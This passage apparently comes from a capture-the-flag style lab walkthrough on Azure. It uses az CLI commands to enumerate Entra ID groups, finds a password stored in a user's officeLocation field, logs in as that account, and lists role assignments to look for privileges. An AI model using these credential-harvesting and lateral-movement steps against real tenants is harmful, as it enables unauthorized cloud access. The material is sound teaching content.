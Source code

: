 Based on this output, a group named `Secret Recovery Group` exists. This is an interesting group because of the description, so let's list the members of this group:
```bash
$ az ad group member list --group "Secret Recovery Group"
```
**Example Output**:
```bash
[
  {
    "@odata.type": "#microsoft.graph.user",
    "businessPhones": [],
    "displayName": "wvusr-backupware",
    "givenName": null,
    "id": "1db95432-0c46-45b8-b126-b633ae67e06c",
    "jobTitle": null,
    "mail": null,
    "mobilePhone": null,
    "officeLocation": "R3c0v3r_s3cr3ts!",
    "preferredLanguage": null,
    "surname": null,
    "userPrincipalName": "wvusr-backupware@aoc2024.onmicrosoft.com"
  }
]
```
Given the previous output, it looks like everything makes a little sense now. All of the previous commands seem to point to the `wvusr-backupware` account. 

Since we have seen a potential set of credentials, let's jump to another user by clearing the current Azure CLI account session and logging in with the new account:
```bash
$ az account clear

$ az login -u EMAIL -p PASSWORD

#Replace email with the email from "userPrincipalName"
#Replace the password with the one from "officeLocation"
```
### Azure Role Assignments
Since the `wvusr-backupware` account belongs to an interesting group, the first hunch is to see whether **sensitive or privileged roles are assigned to the group**.

But before checking the assigned roles, let's have a quick run-through of **Azure Role Assignments**. 
* **Azure Role Assignments** define the resources that **each user or group** can access. 
* When a new user is created via **Entra ID**, it cannot access any resource by default due to a lack of role.
* To grant access, an administrator must assign a **role** to let users view or manage a specific resource.
* The privilege level configured in a role ranges from **read-only to full-control**. Additionally, **group members can inherit a role** when assigned to a group.

Returning to the **Azure enumeration**, let's see if a role is assigned to the ``Secret Recovery Group``. We will be using the `--all` option to **list all roles** within the Azure subscription, and we will be using the `--assignee` option with the **group's ID** to render only the ones related to our target group:
```bash
$ az role assignment list --all --assignee 7d96660a-02e1-4112-9515-1762d0cb66b7 
```
>[!important] You may retrieve the group ID from the command executed previously: `az ad group list`.

